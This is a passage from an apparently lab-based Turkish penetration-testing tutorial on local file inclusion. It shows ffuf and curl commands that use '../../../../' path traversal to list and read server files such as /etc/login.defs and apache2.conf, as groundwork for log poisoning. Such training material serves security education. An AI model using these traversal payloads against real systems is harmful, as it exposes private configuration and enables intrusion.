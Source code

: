 
#### **Server Logs/Configurations**  

Önceki bölümde gördüğümüz gibi, tartıştığımız log poisoning saldırılarını gerçekleştirebilmek için doğru log dizinini belirleyebilmemiz gerekir. Ayrıca, az önce tartıştığımız gibi, sunucu webroot yolunu ve diğer önemli bilgileri ( logs path gibi!) tanımlayabilmek için sunucu yapılandırmalarını da okumamız gerekebilir.  

Bunu yapmak için [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) kelime listesini de kullanabiliriz, çünkü bu liste ilgilenebileceğimiz sunucu günlüklerinin ve yapılandırma yollarının çoğunu içerir. Daha hassas bir tarama yapmak istiyorsak, [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) veya [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), bu kelime listesini kullanabiliriz, ancak bunlar `seclists`'in bir parçası değildir, bu yüzden önce onları indirmemiz gerekir. Linux kelime listesini LFI güvenlik açığımıza karşı deneyelim ve ne elde ettiğimize bakalım:

```shell-session
M1R4CKCK@htb[/htb]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```

Gördüğümüz gibi, tarama 60'tan fazla sonuç döndürdü, bunların çoğu [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) kelime listesi ile tanımlanmadı, bu da bize bazı durumlarda hassas bir taramanın önemli olduğunu gösteriyor. Şimdi, içeriklerini alıp alamayacağımızı görmek için bu dosyalardan herhangi birini okumayı deneyebiliriz. Apache sunucu yapılandırması için bilinen bir yol olduğu için (`/etc/apache2/apache2.conf`) dosyasını okuyacağız:

```shell-session
M1R4CKCK@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```

